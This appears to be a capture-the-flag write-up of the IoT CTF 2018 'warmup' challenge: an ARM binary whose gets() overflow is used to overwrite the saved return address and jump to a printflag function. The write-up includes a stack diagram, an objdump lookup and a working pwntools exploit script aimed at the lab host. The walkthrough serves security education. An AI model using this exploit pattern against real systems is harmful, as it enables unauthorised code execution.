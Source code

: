 # warmup - 919

> You will need access into Home Invasion network to complete this challenge. There is only one flag in this challenge.
>  
> Textbook exploit.
>  
> nc 192.168.51.12 10001

We were provided with 3 files, `warmup`, `ld-linux-armhf.so.3`, and `libc.so.6`. 

```
➜  iotctf2018 file warmup
warmup: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=b6ebf38c2de57f85b53c7771b7e4d61096731ba8, not stripped
```

`warmup` is a 32-bits ARM executable. This means that the architecture, instructions and even its calling convention is different from x86. We could not run the binary on our laptop. Dynamic analysis was now out of the question. We know that there is a way to do it, but we could not afford the time to research into it. 


We dived straight into `binary ninja` to analyse the program. After analysis, we concluded that there were two functions of interest - `<main>` and `<printflag>`. As shown below, `<printflag>` merely opens the flag file in the server, reads it into a local variable, then prints it out to stdout. 

![](../../img/iot_ctf2018_warmup_printflag.png)

We just had to find a way to redirect execution into `<printflag>`. So, we looked at `<main>`, hoping we could redirect program execution from there. 

![](../../img/iot_ctf2018_warmup_main.png)


Turns out it was possible! At first glance, we realized that the program was vulnerable to stack smashing. It was the classic buffer overflow. `gets` reads user input into the buffer `var_28`, overwriting the link register saved on the stack if long enough. In this challenge, padding of 36 characters (ie 0x24) was needed so that the 37th to 40th bytes would overwrite the return address. See below for the stack diagram.


```

|-----------------------|
|	var_28		| esp
|	(our buffer)	|
|			|
|			| esp + 0x4
|			|
|			|
|			| esp + 0x8
|			|
|			| .
|			|
|			| .
|			|
|			| .
|			|
|			|
|			|
|			|
|-----------------------|
|	r11 register	| esp + 0x20
|			|
|-----------------------|
|	link register	| esp + 0x24
|	(the ret addr)	|
|-----------------------|


```

From the symbols table, we found that the address of `<printflag>` was `0x105a4`.
```
➜  iotctf2018 objdump -t warmup | grep "printflag"
000105a4 g     F .text	00000058              printflag
```

We crafted our exploit accordingly.
```
from pwn import *

r = remote('192.168.51.12', 10001)

r.recvuntil('Input your name: ')

r.sendline('aaaabbbbccccddddaaaabbbbccccddddeeee\xa4\x05\x01\x00')


print r.recv(1024)
```

After running the exploit, we got the flag: `HI{binarypwn1_W4rmUp}`. 

![](../../img/iot_ctf2018_warmup_flag.png)




